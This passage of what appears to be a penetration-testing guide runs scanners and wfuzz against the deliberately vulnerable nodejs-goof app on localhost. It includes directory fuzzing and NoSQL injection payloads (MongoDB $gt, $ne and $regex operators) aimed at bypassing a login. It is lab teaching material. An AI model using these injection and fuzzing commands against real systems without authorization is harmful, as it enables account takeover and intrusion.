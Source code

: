 ```bash
# Using NPM Audit (built into Kali)
cd /path/to/nodejs-goof
npm audit --json > npm-audit-results.json

# Using Retire.js (JavaScript library vulnerability scanner)
retire --path /path/to/nodejs-goof --outputformat json --outputpath retire-results.json

# Using Snyk CLI
snyk test --json > snyk-results.json
snyk monitor
```

---

### 2.3 Wfuzz - Web Application Fuzzer

**Objective**: Fuzzing parameters, directories, and injection points

#### Directory Fuzzing
```bash
# Directory discovery
wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt \
  --hc 404 http://localhost:3001/FUZZ

# Find hidden files
wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt \
  -z list,txt-php-html-js-json \
  --hc 404 http://localhost:3001/FUZZ.FUZ2Z

# Recursive fuzzing
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-small-words.txt \
  --hc 404 -R 2 http://localhost:3001/FUZZ
```

#### Parameter Fuzzing - NoSQL Injection
```bash
# Fuzz login endpoint
wfuzz -c -z file,/usr/share/seclists/Fuzzing/NoSQLi/NoSQL.txt \
  -d '{"username":"admin@snyk.io","password":"FUZZ"}' \
  -H "Content-Type: application/json" \
  --hc 401 http://localhost:3001/login

# MongoDB operator injection
wfuzz -c -z list,'{"$gt":""}'-'{"$ne":""}'-'{"$regex":".*"}' \
  -d '{"username":"admin@snyk.io","password":FUZZ}' \
  -H "Content-Type: application/json" \
  http://localhost:3001/login
```

---

## 3. Web Application Testing
